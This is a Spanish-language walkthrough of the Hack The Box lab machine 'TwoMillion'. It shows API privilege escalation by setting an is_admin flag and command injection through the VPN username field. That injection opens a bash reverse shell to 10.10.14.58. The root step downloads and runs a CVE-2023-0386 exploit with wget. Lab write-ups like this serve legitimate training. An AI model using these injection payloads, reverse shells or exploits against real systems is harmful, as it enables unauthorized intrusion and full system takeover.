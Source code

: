 ```yaml
---
description: >-
  ✍️ Autor: TRX & TheCyberGeek 🔍 Dificultad: Fácil 📅 Fecha de creación:
  7/06/2023
---
```


# TwoMillion

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.221
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.221
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.221
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se asimila a la página oficial de Hack The Box pero no vemos nada interesante por lo que revisamos los directorios.

```bash
gobuster dir -u http://2million.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --exclude-length 162
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el directorio `/invite` se asimila a como se tenía que registrar la gente al principio en la plataforma ya que se necesitaba un código de invitación. Tras inspeccionar la página encontramos la función llamada **makeInviteCode**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La llamamos.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos esta encriptada en **ROT13** por lo que desencriptamos.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos lo que nos comunica la pista.

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Está el código en **base64** por lo que decodificamos.

```bash
echo "SDg2RjUtUUdRMDUtWEdEMTItU1o3QTg=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el código de invitación.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 125945.png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales registradas.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Access**. Miramos los endpoints de la API.

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos sale **Unauthorized** por lo que tenemos que coger la **cookie session**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No somos administradores. Tampoco podemos generar una VPN. Vemos que podemos actualizar datos del usuario así que probamos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos avisa del email por lo que añadimos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com"}'| jq
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos dice que falta un parámetro por si es administrador.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com", "is_admin":1}'| jq
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos administradores lo que significa que la API está mal configurada. Por si acaso revisamos.

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intentamos generar una VPN ya que somos admin.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Matizamos lo que se nos avisa.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Ahora nos pide el parámetro username.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"beafn28"}'| jq
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

La respuesta ya no está en JSON por lo que lo quitamos.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Genera una VPN por el usuario que le diga. Por lo que hacemos lo siguiente.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"prueba; whoami;"}'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos www-data por lo que tenemos RCE.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username": "prueba; bash -c \"bash -i >& /dev/tcp/10.10.14.58/443 0>&1\";"}'
```

Nos conectamos.

```bash
nc -lnvp 443
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un fichero .env interesante mostramos su contenido.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migramos de usuario.

```bash
ssh admin@2million.htb
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña. Tampoco tenemos permisos SUID.&#x20;

Nos dice que tenemos un mail.

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al ver la información del sistema en el que nos encontramos encontramos este exploit.

{% @github-files/github-code-block url="https://github.com/sxlmnwb/CVE-2023-0386" %}

Nos lo descargamos en nuestra máquina víctima tras comprimirlo en nuestra máquina anfitrión.

```bash
wget http://10.10.14.58/comprimido.zip
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Abrimos otra terminal y nos logueamos a través de **ssh** y también nos situamos en el directorio `/tmp/CVE-2023-0386`.

```
PRIMERA TERMINAL
make all
./fuse ./ovlcap/lower ./gc

SEGUNDA TERMINAL
./exp
```

Tras realizar esto nos convertimos en **root**.

<figure><img src="../../.gitbook/assets/image (1166).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 153509.png" alt=""><figcaption></figcaption></figure>
